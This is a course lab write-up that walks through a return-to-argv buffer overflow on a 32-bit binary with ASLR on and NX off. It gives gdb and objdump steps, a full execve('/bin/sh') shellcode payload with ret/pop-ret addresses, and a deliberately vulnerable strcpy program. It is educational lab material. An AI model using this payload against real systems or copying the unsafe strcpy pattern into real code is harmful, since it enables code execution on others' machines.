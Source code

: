 # Lab4 - Buffer overflow attack(turn on ASLR, turn off NX), 

## !! Some images are from the course lecture files !!

## Overview
+ If ASLR is off, we can find out exact address of the user input.
+ But, with ASLR is on, it's really hard to get exact address of the stack. Because it changes whenever executing.
+ When calling a function with an user input, there should be the input argument in the stack frame. 
+ If we can found the address of the argument in the stack, and then we can use that address to execute our malicious code.

## Payload
Payload = shellcode + alignment + &ret*N + &pop-ret

## Before get started
+ First, compile the source at the bottom of this page like below.
```
gcc -g -m32 -z execstack -fno-stack-protector ans_check6.c -o ans_check6
```
+ Second, make sure the ASLR option is turned on . The value should be 1 or 2.(Not 0)
```
cat /proc/sys/kernel/randomize_va_space
```

## Steps
1. Find out where the break points are. There are two break points. Before calling strcpy and after calling.(line number 12 and 14)
2. Run gdb and set break points.
3. Run with the random argument you can notice.(Run like this in gdb. run 33333333)
4. Find the return address and a parameter from the stack using x/72xw $esp.
5. If you investigate stack frame further, you can find exact same address upper portion in the stack frame. Why? because main function call also resides in the stack frame and it also has input arguments.(These are argc, argv)
6. Now, you can caculate how many bytes do we need to overwrite up until the main argv. If we can reach to that point, we may execute main function's argument strings(It is a malicous code)
7. In the image below, we are going to overwrite from Number 1 to Number 5. But What are we going to write?
### Figure out how many bytes do we need to fill up
![howto3](https://raw.githubusercontent.com/kbckbc/washu_sp22_cse523/main/img/howto3.png)
8. Overwrite the address of 'ret' and 'pop-ret' instruction up until the second address! About finding out the address of 'ret' and 'pop-ret' is explained below

## What is 'ret' and 'pop-ret'
+ 'ret' pops up the top of the stack and shrink the stack point(esp)
+ 'pop-ret' is similar to 'ret' and it pops one more time. 
+ How to find 'ret' and 'pop-ret'? In the program there should be several ret and pop-ret instruction itself.
```
objdump -D ans_check6 | less
objdump -D ans_check6 | grep -B3 ret | grep -A1 pop
```

## The payload I use
```
./ans_check6 $(python -c "print '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80\x90'+'\x21\x86\x04\x08'*55+'\x91\x83\x04\x08'")
```

## Result of getting a new shell 
![howto4](https://raw.githubusercontent.com/kbckbc/washu_sp22_cse523/main/img/howto4.png)


## Our stack frame
![howto1](https://raw.githubusercontent.com/kbckbc/washu_sp22_cse523/main/img/howto1.png)

## Our strategy
![howto2](https://raw.githubusercontent.com/kbckbc/washu_sp22_cse523/main/img/howto2.png)


## ans_check6.c
```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int check_answer(char *ans) {

  int ans_flag = 0;
  char ans_buf[34];
  printf("check_answer.ans is at address %p\n", ans);
  printf("check_answer.ans_buf is at address %p\n", &ans_buf);

  strcpy(ans_buf, ans);

  if (strcmp(ans_buf, "forty-two") == 0)
    ans_flag = 1;

  return ans_flag;

}

int main(int argc, char *argv[]) {
  printf("main:%p\n", main);
  printf("check_answer:%p\n", check_answer);
  if (argc < 2) {
    printf("Usage: %s <answer>\n", argv[0]);
    exit(0);
  }
  printf("main.argc is at address %p\n", &argc);
  printf("main.argv[0] is at address %p\n", argv[0]);
  printf("main.argv[1] is at address %p\n", argv[1]);
  if (check_answer(argv[1])) {
    printf("Right answer!\n");
  } else {
    printf("Wrong answer!\n");
  }
  printf("About to exit!\n");
  fflush(stdout);
}

```
